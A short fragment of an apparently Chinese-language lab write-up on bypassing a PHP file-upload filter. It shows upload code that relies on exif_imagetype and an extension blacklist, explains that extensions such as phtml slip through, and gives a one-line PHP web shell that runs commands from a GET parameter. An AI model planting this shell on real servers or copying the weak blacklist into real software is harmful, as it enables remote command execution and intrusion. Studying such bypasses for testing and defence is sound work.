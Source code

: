 ```php
		}elseif (exif_imagetype($_FILES['upload']['tmp_name'])) {
			if ($extention !== 'php' && $extention !== 'php3' && $extention !== 'php4' && $extention !== 'php5') {
			//blacklist
			move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
			}else{
				die('extension is no allowed!');
			}
		}else{
			die('exif_imagetype thought file type is wrong!');
		}
	}
}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload1">
	</form>
<?php
}
?>
```

代码验证了`Content-Type`、`文件头`和`黑名单(php、php3、php4、php5上传不了)`，所以这里可以上传(php2、php6、phtml)

shell1.jpg
```php
<?php system($_GET['cmd']);?>
```

![](assets/markdown-img-paste-20180415225150645.png)

